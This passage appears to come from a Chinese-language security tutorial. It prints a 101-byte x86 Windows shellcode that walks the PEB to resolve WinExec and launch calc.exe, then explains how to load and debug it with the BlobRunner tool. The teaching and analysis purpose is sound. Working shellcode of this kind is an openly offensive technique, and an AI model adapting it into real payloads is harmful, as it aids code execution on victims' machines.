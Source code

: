 输出结果:

```c
// size:101 bytes 
unsigned char shellcode[] ="\x64\x8B\x1D\x30\x00\x00\x00"
"\x8B\x5B\x0C"
"\x8B\x5B\x14"
"\x8B\x1B"
"\x8B\x1B"
"\x8B\x5B\x10"
"\x8B\x53\x3C"
"\x03\xD3"
"\x8B\x52\x78"
"\x03\xD3"
"\x33\xC9"
"\x49"
"\x8B\x72\x20"
"\x03\xF3"
"\x41"
"\xAD"
"\x03\xC3"
"\x81\x38\x57\x69\x6E\x45"
"\x75\xF4"
"\x81\x78\x04\x78\x65\x63\x00"
"\x75\xEB"
"\x8B\x72\x24"
"\x03\xF3"
"\x66\x8B\x0C\x4E"
"\x8B\x72\x1C"
"\x03\xF3"
"\x8B\x14\x8E"
"\x03\xD3"
"\x33\xDB"
"\x53"
"\x68\x2E\x65\x78\x65"
"\x68\x63\x61\x6C\x63"
"\x8B\xF4"
"\x6A\x0A"
"\x56"
"\xFF\xD2"
"\x83\xC4\x12";
```

![image-20211201155252328](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e26263a3876325be7ba0319bc6597b55a8c47672.png)

0x5.5 ShellCodeLoader
---------------------

提取完ShellCode,需要ShellCodeLoader进行加载，这里，笔者推荐自身常用且觉得调试方便的shellcode加载工具:<https://github.com/OALabs/BlobRunner>

快捷键按下F2，根据BlobRunner给出的入口和大小，设置内存断点，选择Execute，即可断在shellcode的入口处。
